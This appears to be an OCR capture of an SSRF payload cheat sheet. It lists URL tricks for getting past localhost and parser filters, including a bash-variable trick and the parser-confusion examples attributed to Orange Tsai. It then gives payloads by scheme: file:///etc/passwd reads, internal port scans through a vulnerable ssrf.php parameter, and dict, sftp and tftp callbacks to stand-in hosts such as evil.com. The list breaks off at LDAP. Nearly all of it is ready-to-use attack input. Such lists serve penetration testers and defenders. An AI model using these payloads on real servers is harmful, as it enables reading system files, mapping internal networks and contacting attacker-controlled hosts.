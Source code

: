 http://0/
http://127.1
http://127.0.1
Bypass using bash variables
(curl only)

curl -v "http://evil$google.com"
$google = ""
Bypass using tricks combination
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
Bypass filter_var() php function
0://evil.com:80;http://google.com:80/
Bypass against a weak parser
by Orange Tsai (Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/

SSRF exploitation via URL Scheme
File
Allows an attacker to fetch the content of a file on the server

file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
HTTP
Allows an attacker to fetch any content from the web, it can also be used to scan ports.

ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443

The following URL scheme can be used to probe the network

Dict
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
SFTP
A network protocol used for secure file transfer over secure shell

ssrf.php?url=sftp://evil.com:11111/
TFTP
Trivial File Transfer Protocol, works over UDP

ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
LDAP
Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.
